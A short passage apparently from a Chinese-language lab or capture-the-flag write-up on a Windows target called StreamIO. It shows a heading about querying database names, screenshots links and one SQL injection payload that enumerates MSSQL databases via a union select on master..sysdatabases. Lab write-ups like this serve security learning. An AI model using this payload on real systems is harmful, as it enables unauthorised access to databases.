 ![image-20250516142934028](./StreamIO-Windows/image-20250516142934028.png)

#### **查询数据库名**

```
q=10' union select 1,name,3,4,5,6 from master..sysdatabases--+
```

![image-20250519103951483](./StreamIO-Windows/image-20250519103951483.png)
